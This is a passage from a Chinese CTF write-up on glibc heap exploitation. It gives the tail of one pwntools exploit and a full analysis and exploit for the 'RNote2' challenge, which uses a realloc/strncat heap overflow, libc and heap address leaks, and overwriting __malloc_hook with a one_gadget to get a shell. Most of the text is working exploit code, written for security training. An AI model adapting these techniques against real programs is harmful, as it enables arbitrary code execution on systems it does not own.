show(index): io.sendlineafter("Your choice:","3") io.sendlineafter("Which Note do you want to show:",str(index)) def delete(index): io.sendlineafter("Your choice:","2") io.sendlineafter("Which Note do you want to delete:",str(index)) add(40,'a'*17,'b'*3)#0 show(0) io.recvuntil('a'*16) heap_base = u64(io.recvuntil("\n")[:-1].ljust(0x8,"\x00"))-0x61 log.info('heap base is '+hex(heap_base)) add(0x80,'B'*4,'b'*4)#1 add(0x80,'C'*4,'c'*4)#2 delete(1) add(0x80,'D'*8,'d'*8)#1 show(1) io.recvuntil('d'*8) libc_base = u64(io.recv(6).ljust(0x8,'\x00')) - 0x3c4b0a log.info('libc base is '+hex(libc_base)) system_addr = libc_base + libc.symbols['system'] malloc_hook_addr = libc_base + libc.symbols['__malloc_hook'] log.info("malloc_hook_addr is "+hex(malloc_hook_addr)) one_gadget = libc_base + 0xf1147 log.info("one_gadget is "+hex(one_gadget)) add(0x60,'E'*8,'e'*8)#3 add(0x60,'F'*8,'f'*8)#4 add(0x60,'G'*8,'g'*8)#5 delete(3) add(0x60,'\xd0'*0x11,"dddd") delete(4) delete(5) delete(3) add(0x60,'H'*8,p64(malloc_hook_addr-0x23)) add(0x60,'E'*8,'e'*8) add(0x60,'E'*8,'e'*8) payload = 'z'*0x13 + p64(one_gadget) add(0x68,'E'*8,payload) io.sendlineafter("Your choice:","1") io.sendlineafter("Please input the note size:",'0x60') io.interactive()

Rnote2 分析 首先逆向node数据结构
1 2 3 4 5 6 7 struct Note{ edit_flag; length; Note *Next; Note *Prev; char *Content; }
其中edit_flag会在edit后置为1
漏洞出现在expand处

expand使用realloc函数，realloc的chunk后边如果存在空闲的chunk，则原chunk不变，直接在原chunk后边扩展。漏洞点在于realloc不对内容进行初始化，儿strncat函数从’\0’的位置开始追加，这就可能存在溢出

如上图，复制’D’*40时，会连同D后的’1101’一块儿进行复制拼接

上图是进行expand(9,0x80,’\xff’*0x80)后的结果，可见’1101’确实一块儿进行了复制拼接，从而造成了溢出，刚好溢出了chunk的size字段
综上，漏洞为realloc+strncat造成的堆溢出
1 2 3 tip： realloc如果后边空间够用，则不会改变原来chunk的位置，直接在原位置后边进行扩展 strncat复制拼接时，判断第一个字符串的结束是根据'\0'字符去判断的
利用 写露出libc后，利用溢出修改content指针为malloc_hook指针，劫持malloc_hook为one_gadget
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 from pwn import * context.binary = './RNote2' elf = ELF('./RNote2') level = 'debug' if level == 'local': io = process("./RNote2",env={'LD_PRELOAD':"./libc.so.6"}) libc = ELF('./libc.so.6') elif level == 'remote': io = remote(IP,PORT) elif level == 'debug': context.log_level = 'debug' io = process("./RNote2",env={'LD_PRELOAD':"/lib/x86_64-linux-gnu/libc.so.6"}) libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") def dbg(): gdb.attach(io) io.interactive() def add(size,content): io.sendlineafter("Your choice:",'1') io.sendlineafter("Input the note length:",str(size)) io.sendlineafter("Input the note content:",content) pass def delete(index): io.sendlineafter("Your choice:",'2') io.sendlineafter("Which note do you want to delete?",str(index)) pass def list(): io.sendlineafter("Your choice:",'3') pass def edit(index,content): io.sendlineafter("Your choice:",'4') io.sendlineafter("Which note do you want to edit?",str(index)) io.sendlineafter("Input new content:",content) pass def expand(index,length,content): io.sendlineafter("Your choice:",'5') io.sendlineafter("Which note do you want to expand?",str(index)) io.sendlineafter("How long do you want to expand?",str(length)) io.sendlineafter("Input content you want to expand",content) pass add(10,'a'*4)#1 add(0x80,'b'*4) add(0x10,'c'*4)#2 delete(2) add(0x80,'d'*8)#3 list() io.recvuntil('d'*8) libc_base = u64(io.recv(6).ljust(0x8,'\x00')) - 0x3c4b0a log.info('libc base is '+hex(libc_base)) malloc_hook_addr = libc_base + libc.symbols['__malloc_hook'] one_gadget = libc_base + 0xf1147 log.info('malloc_hook addr is '+hex(malloc_hook_addr)) log.info('one_gadget is '+hex(one_gadget)) add(0x10,'e'*8)# add(0x10,'f'*8)#4 add(0x10,'g'*8)# delete(4) delete(5) add(0x20,'h'*15)#5 list() io.recvuntil('h'*15) io.recv(1) heap_base = u64(io.recv(6).ljust(0x8,'\x00')) - 0x1c0 log.info('heap base is '+hex(heap_base)) add(0x10,'a'*8) add(0x10,'a'*8) add(0xa0,'A'*0xa0)#8 add(0x100,'B'*0x100)#9 add(0x60,'C'*0x60)#10 delete(9) delete(8) add(0x28,'D'*0x28)#9 expand(9,0x80,'\xff'*0x80) payload = 'E'*136 + p64(0x30) + p64(0x00) + p64(0x68) + p64(0x00005555557572c0) + p64(0x0000555555757290) + p64(malloc_hook_addr-0x23) add(0xe0,payload) payload = 'a'*0x23 + p64(one_gadget) edit(8,payload) io.sendlineafter("Your choice:",'1') io.sendlineafter("Input the note length:",'10') io.interactive()